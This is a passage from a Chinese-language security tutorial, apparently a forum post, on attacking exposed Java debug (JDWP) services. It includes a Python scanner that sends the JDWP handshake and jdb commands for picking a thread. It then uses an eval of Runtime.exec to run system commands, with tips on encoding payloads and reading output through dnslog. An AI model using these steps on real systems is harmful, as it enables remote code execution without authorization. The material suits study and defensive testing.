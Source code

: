 ```python
import socket

host = "192.168.182.130"
port = 8000
try:
    client = socket.socket()
    client.connect((host, port))
    client.send(b"JDWP-Handshake")
    if client.recv(1024) == b"JDWP-Handshake":
        print("[*] {}:{} Listening JDWP Service! ".format(host, port))
except Exception as e:
    print("[-] Connection failed! ")
finally:
    client.close()
```

漏洞利用
----

### 利用JDB工具

jdb是JDK中自带的命令行调试工具，执行如下命令连接远程JDWP服务

```shell
jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.182.130,port=8000
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-fb6c3ebfdb7cab84685c466bd9eb4ca72b507e7b.png)

接下来执行threads命令查看所有线程

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-f6dc7cf71cd480f6c3174a62e24eb6269b13b7a2.png)

执行 `thread <线程id>` 命令选择指定线程，例如执行 `thread 0xc6a` 命令选择一个sleeping的线程，接下来执行`stepi`命令进入该线程（stepi命令用于执行当前指定，启动休眠的线程）

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-659996f28c077910819266a61a9befc06edb9a81.png)

接下来可以通过 `print|dump|eval` 命令，执行Java表达式从而达成命令执行

```shell
eval java.lang.Runtime.getRuntime().exec("whoami")
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-35ae162600326cbd051c3624788d4f9ff28fe406.png)

这里是使用`java.lang.Runtime`去执行系统命令，可以看到命令是执行成功，返回了一个Process对象，我们可以使用dnslog平台查询命令执行的结果

另外使用`java.lang.Runtime`执行系统命令有个坑点，就是执行的命令中如果包含特殊符号，执行命令可能就会执行不成功，解决办法就是对要执行的命令进行编码处理，可以通过如下网站帮助我们生成命令执行的Payload

<https://www.jackson-t.ca/runtime-exec-payloads.html>

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-af5b53e0a5175c351b46e2c69258ee07878a13df.png)
